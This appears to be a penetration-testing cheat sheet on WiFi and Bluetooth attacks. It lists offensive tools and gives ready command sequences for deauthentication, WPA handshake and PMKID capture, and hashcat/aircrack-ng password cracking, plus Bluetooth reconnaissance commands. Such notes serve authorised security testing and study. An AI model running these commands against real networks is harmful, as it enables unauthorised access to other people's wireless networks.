 # WiFi & Wireless

## Wifi 

### Tools 

- Airgeddon: <https://github.com/v1s1t0r1sh3r3/airgeddon>
- wifite2 - Attack multiple WEP and WPA encrypted networks at the same time: <https://github.com/derv82/wifite2>
- WIFIPhisher - Phishing attack tool for Wifi networks: <https://github.com/wifiphisher/wifiphisher>
- WiFi Wardriving with Android - WiGLE WiFi Wardriving: <https://play.google.com/store/apps/details?id=net.wigle.wigleandroid&hl=en>

### Quick Reference 
- `iwconfig`
- `iwlist wlan0 scan`
- `nmcli dev wifi`
- `nmcli dev wifi connect AP-SSID password APpassword`
- `airmon-ng start|stop|restart interface`
- Capture and crack handshake:
    ```
    aircrack-ng captured.cap​
    aircrack-ng -a 2 -b <BSSID> -w wordlist captured.cap​
    ```
- WPA/WPA2 PMKID
  - STEP 1:
    - <https://github.com/ZerBea/hcxdumptool>
    - <https://github.com/aircrack-ng/aircrack-ng>
  - STEP 2: Find target BSSID:
    - `airodump-ng <int>`
  - STEP 3: Add BSSID in ‘bssid.txt’ and use ‘hcxdumptool’:
    - `hcxdumptool -i <int> --filterlist=bssid.txt --filermode=2 --enable_status=2 -o pmkid.pcap`
  - STEP 4: Extract PMKID into hashcat format for cracking:
    - <github.com/ZerBea/hcxtools>
    - `hcxpcaptool -z wpa2_pmkid_hash.txt pmkid.pcap`
  - STEP 5: Crack:
    - `hashcat -a 0 -m 16800 -w 4 wpa2_pmkid_hash.txt dict.txt`
  - <https://mobile.twitter.com/netmux/status/1097908867374215168>
- WPA enterprise (evil tween attack)
  - <https://pwn.no0.be/exploitation/wifi/wpa_enterprise/>
  - <https://rootsh3ll.com/evil-twin-attack/>
- 4 way handshake capture:
    ```bash
    sudo bettercap -iface wlan0
    ```
  - this will set the interface in monitor mode and start channel hopping on all supported frequencies: `wifi.recon on`
  - we want our APs sorted by number of clients for this attack, the default sorting would be `rssi asc`: 
    ```bash
    set wifi.show.sort clients desc
    ```
  - every second, clear our view and present an updated list of nearby WiFi networks
    ```bash
    set ticker.commands 'clear; wifi.show'
    ticker on
    ```
  - other
    ```bash
    wifi.recon.channel 1
    ```
    ```bash
    wifi.deauth e0:xx:xx:xx:xx:xx
    ```
- Cracking 4-way handshake:
    ```bash
    /path/to/cap2hccapx /root/bettercap-wifi-handshakes.pcap bettercap-wifi-handshakes.hccapx
    /path/to/hashcat -m2500 -a3 -w3 bettercap-wifi-handshakes.hccapx '?d?d?d?d?d?d?d?d'
    ```
- Client-less **PMKID Attack**
  - <https://hashcat.net/forum/thread-7717.html>
  - PMKID = HMAC-SHA1-128(PMK, "PMK Name" | MAC_AP | MAC_STA)
    ```bash 
    # wifi.assoc supports 'all' (or `*`) or a specific BSSID, just like wifi.deauth
    wifi.assoc all
    ```
  - All nearby vulnerable routers (and let me reiterate: a lot of them are vulnerable), will start sending you the PMKID, which bettercap will dump to the usual pcap file:
- PMKID Cracking
    ```bash 
    /path/to/hcxpcaptool -z bettercap-wifi-handshakes.pmkid /root/bettercap-wifi-handshakes.pcap
    /path/to/hashcat -m16800 -a3 -w3 bettercap-wifi-handshakes.pmkid '?d?d?d?d?d?d?d?d'
    ```

### References

**New References**

- Tracking All the WiFi Things: https://osintcurio.us/2019/01/15/tracking-all-the-wifi-things/
- How to Make a Captive Portal of Death: https://medium.com/bugbountywriteup/how-to-make-a-captive-portal-of-death-48e82a1d81a

## Bluetooth 

### Quick References

- `apt-get install bluez`
- `hciconfig` - similarly to ifconfig
  - `hciconfig hci0 up`
- `hcitool` - provide us with device name, device ID, device class, and device clock information
  - `hcitool scan`
  - `hcitool inq` -  MAC addresses of the devices, the clock offset, and the class of the devices.
    - <https://www.bluetooth.org/en-us/specification/assigned-numbers/service-discovery>
- `hcidump` - sniff the Bluetooth communication
- Service Discovery Protocol (SDP) is a Bluetooth protocol for searching for Bluetooth services (Bluetooth is suite of services),
  - `sdptool browse MACaddress`
- Check reachability: `l2ping MACaddress`